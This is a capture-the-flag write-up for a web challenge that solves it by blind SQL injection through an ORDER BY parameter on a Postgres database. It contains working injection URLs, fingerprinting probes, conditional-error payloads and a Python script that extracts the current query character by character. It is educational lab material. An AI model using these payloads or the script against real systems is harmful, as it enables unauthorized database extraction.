


# Web: Order Up 1

This is a web challenge I created for the WolvSec club CTF event hosted March 2024.

## Description

I hope my under construction web site is secure.

Solving this will unlock a series of related challenges that ALL use the same challenge instance.

To find the first flag, find a way to view the text of the SQL query.

If you find some other flag, it will be related to one of the others in this series.

**Note:** Automated tools like sqlmap and dirbuster are not allowed (and will not be helpful anyway).

This challenge can have at most one instance **per team**.

There is a button that spins up an instance that runs for 60 mins.  You can click it anytime to reset or restart the challenge instance.

# Based on Real Vuln

This challenge is based on a real-world vulnerability I found/reported as part of a responsible disclosure program. It is as close to the real thing as I could make it.

# Overview

When you open the challenge page, you see an HTML table listing a bunch of items like from a menu.

If you use a tool like Burp Suite, you will see this request is made to get the menu items in JSON format:



Notice the word "query" in the context path.

Maybe this does a database query of some kind.

# Initial Tampering

If you send this to Burp Repeater and then start tampering with the col1-4 parameters, you'll get this if you tamper with all 4 of them:

```
Invalid column names provided
```

However, if we tamper with the `order` parameter such as this (added single quote to the end):
```
GET /query?col1=category&col2=item_name&col3=description&col4=price&order=category,item_name'
```

we get a response like:
```
500 Internal Server Error
```

This is pretty good evidence that there is some type of injection possible in the `order` parameter.

When doing query research, I like to use: https://www.db-fiddle.com/

If I click **Load Example** on this page and enter a baby query with an ORDER BY clause and run it I get this:


If you are new to SQL, there are lots of online resources that can help you learn.

My current working assumption is that we can put anything we want as the value of the **ORDER BY** clause.

With a bit of googling, here are some possible resources to help:

https://portswigger.net/support/sql-injection-in-the-query-structure

https://pulsesecurity.co.nz/articles/postgres-sqli

There are LOTS of ways an attacker might go at this point. I'm just going to review how I iniitally approached it.

To start with, lets put this URL in our browser:

https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=category,item_name

This returns JSON ordered by category first, then item_name as espected.

Our first real injection is here:

```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=1)%20then%20category%20else%20item_name%20end
```

This says, if **1=1** then order by **category**, otherwise by **item_name**.

The returned JSON is orderd by **category**.

If we change to this:
```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=2)%20then%20category%20else%20item_name%20end
```

since **1=2** is FALSE, the returned JSON is ordered by **item_name**.

Cool!

# DB Fingerprinting

At this point, I decided to use the trick we just learned to figure out what DB is being used here.

There are lots of resource online for this.  Here's one: https://www.sqlinjection.net/database-fingerprinting/

The following uses `sqlite_version() = ''` as the BOOLEAN expression:
```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(sqlite_version() = '')%20then%20category%20else%20item_name%20end
```

This returns a 500.

This tells us this is not SQLITE.

**Note**: I always FIRST try something in DB fiddle using two different DBs to confirm the behavior before trying it against the challenge.

Try the same for `version() = ''

```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(version()=%27%27)%20then%20category%20else%20item_name%20end
```

This does NOT crash.

However, several DB have a version() function.

More or less randomly looking online at the various functions that each DB offers, I came across the **system_user()** function in **MySQL**.

I tried it on the db fiddle page first to make sure I had the case/usage correct.

Then I tried it here:
```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(system_user()=%27%27)%20then%20category%20else%20item_name%20end
```

and got 500.

That tells me it is not **MySQL**.

In looking at **Postgres** functions I randomly found **pg_current_logfile()**

When I try it here:

```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(pg_current_logfile()=%27%27)%20then%20category%20else%20item_name%20end
```

It does not crash!

That tells me it is for sure **Postgres**.

**Note**: The above process will be different for everyone and there is no perfect recipe for such DB fingerprinting.

# Exfiltration

Now that we know it is Posgres, we need a way to extract data.

We know we can put a boolean expression in our **case** statement and detect true/false based on the order of the returned JSON.

After some experimentation, I learned there is a better way.  We can determine true/false based on a conditional error.

```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=1)%20then%20%27category%27%20else%20substr(%27a%27,1,-1)%20end
```

This says, when 1=1, order by 'category', else order by subset('a',1,-1)

**Note**: category is in quotes now where it wasn't before.  I learned this by first playing in db fiddle. Both true/false values have to be the same type.

If I give 1=2

```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(1=2)%20then%20%27category%27%20else%20substr(%27a%27,1,-1)%20end
```

Then it crashes because -1 is not a legal parameter to substr().

There are LOTs of other ways to achieve conditional errors.

In fact, after much playing around, here is one I like better. Use this as the **else** and it will crash on **false**.

```
''||query_to_xml('bad-query',true,true,'')
```

The `''||` prefix coereces the xml to be a string. (again playing ahead of time in db fiddle helps)

Let's try to exfiltrate some information now.

I want to learn what version of Postgres is at play.

This query:
```
https://dyn-svc-order-up-ps28rtskmrv67quba0hu-okntin33tq-ul.a.run.app/query?col1=category&col2=item_name&col3=description&col4=price&order=case%20when%20(substr(version(),%201,%201)%3E=%27P%27)%20then%20%27category%27%20else%20%27%27||query_to_xml(%27bad-query%27,true,true,%27%27)%20end
```

Has a **case** exprfession of `(substr(version(), 1, 1)>='P')`

This returns JSON.

If we change it to: `(substr(version(), 1, 1)>='Q')` it crashes.

This proves the first character of the `version()` function is 'P'!

If I wanted, I could manualy find each character but that is way too time consuming.

# Finding the Flag

Now that we have a way to exfiltrate, let's write some python.

After reviewing a bunch of Postgres functions, the one that returns the current query is: `current_query()`

So let's exfiltrate this.

Here is my solve script.

Note that it deviates a little from the above research due to multiple refinements.

Of note: it uses the `ascii()` function to avoid having to worry about avoiding special characters like single quote in the comparison.

```
import os
import requests

URL = os.getenv('CHAL_URL') or 'https://dyn-svc-order-up-xzt52u0rhv6nh4eo2w0q-okntin33tq-uc.a.run.app/'
URL = URL + '/query'

def tryUrl(expression):
    order = f"CASE WHEN ({expression}) THEN item_name ELSE ''||query_to_xml('bad-query',true,true,'') END"
    params = {'col1': 'item_name', 'order': order}

    response = requests.get(URL, params=params, timeout=20)
    # print(response.status_code, response.text)

    return 'Error' not in response.text


def probeValueAtOffset(value, charOffset):

    lowGuessIndex = 1
    highGuessIndex = 126

    while lowGuessIndex < highGuessIndex:
        guessIndex = lowGuessIndex + (highGuessIndex - lowGuessIndex) // 2;

        expression = f"ascii(substring({value}, {charOffset}, 1)) >= {guessIndex}"
        # print(expression)

        if tryUrl(expression):
            if lowGuessIndex == guessIndex:
                return chr(guessIndex)
            lowGuessIndex = guessIndex
        else:
            highGuessIndex = guessIndex

    return False


def runQuery():
    value = """"""
    expression = """current_query()"""
    # expression = """version()"""
    offset = len(value)
    while True:
        offset += 1
        nextChar = probeValueAtOffset(expression, offset)
        if not nextChar:
            return value
        value += nextChar
        print(value)

        if 'wctf{' in value and '}' in value:
            print('SOLVED: ORDER_UP flag 1!')
            break
            

    return value

value = runQuery()

print('-------------------------------------')
if 'wctf{' not in value:
    print('FAILED to find flag 1')


```

This prints a new line for each found char. It ends with:
```
SELECT item_name from /*wctf{0rd3r_by_1nj3ct10n_1s_fun_09376523465}
```
